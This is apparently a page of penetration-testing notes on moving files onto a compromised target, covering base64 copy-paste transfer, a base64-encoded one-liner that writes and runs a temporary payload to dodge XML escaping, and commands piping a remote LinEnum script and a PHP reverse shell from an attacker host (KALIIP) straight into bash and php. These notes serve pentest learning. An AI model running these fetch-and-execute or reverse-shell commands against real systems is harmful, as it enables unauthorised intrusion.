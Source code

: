 # Transferring Files

This section could easily be put in the post-exploitation section. But I consider this knowledge so fundamental that I chose to put it here.

## Giant file transfer, can't transfer over network \(Base64\)

```
base64 file
highlight beginning, hit enter to copy to bottom, ctrl+c, paste
base64 -d pastedfile
md5sum both to ensure accurate completion
```

# Can also be used for encoding/decoding issues and file execution

**XML as example:**

We could base64 encode the user supplied command \(since base64 characters don't break XML\) and decode that on the command line into a file, then execute that file with /bin/bash and then remove that temporary file all while avoiding special XML characters. For example, the following one-line command could achieve this:

```

echo L3Vzci9iaW4vd2hvYW1pIA==| base64 -d | tee -a /tmp/payload.tmp ; /bin/bash /tmp/payload.tmp; /bin/rm /tmp/ payload.tmp
```

# Quick file transfer & execute scripts

```
on attack
python -m SimpleHTTPServer 8080

on target
curl KALIIP:8080/LinEnum.sh | bash
LinEnum as example
```

```
Quick shell

on target
curl http://KALIIP/php-reverse-shell.php | php
```

### **References:**

[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code)



